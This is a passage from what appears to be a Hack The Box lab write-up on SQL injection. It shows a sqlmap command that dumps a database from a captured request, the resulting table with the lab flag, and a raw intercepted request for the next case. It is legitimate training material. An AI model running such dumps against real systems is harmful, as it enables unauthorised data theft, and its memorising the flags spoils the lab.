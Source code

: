 ![](gitbook/cybersecurity/images/Pasted%252520image%25252020250204150310.png)

## Case 2
---

If we go to `case 2`, we will see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250204150350.png)

Let's capture the request with burp and use sqlmap:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250204150548.png)


We can do the following sqlmap command:

```
python3 sqlmap.py -r reqcase2.txt --batch --dump --threads 10
```

This outputs the following:

```
+----+----------------------------------------+
| id | content                                |
+----+----------------------------------------+
| 1  | HTB{700_much_c0n6r475_0n_p057_r3qu357} |
+----+----------------------------------------+
```

Got the flag: `HTB{700_much_c0n6r475_0n_p057_r3qu357}`


## Case 3
---

For case 3 we find the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250204151814.png)

Let's intercept the request and send it to sqlmap:

```
GET /case3.php HTTP/1.1

Host: 94.237.61.252:35591

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://94.237.61.252:35591/

Connection: keep-alive

Cookie: id=1

Upgrade-Insecure-Requests: 1

Priority: u=0, i
```
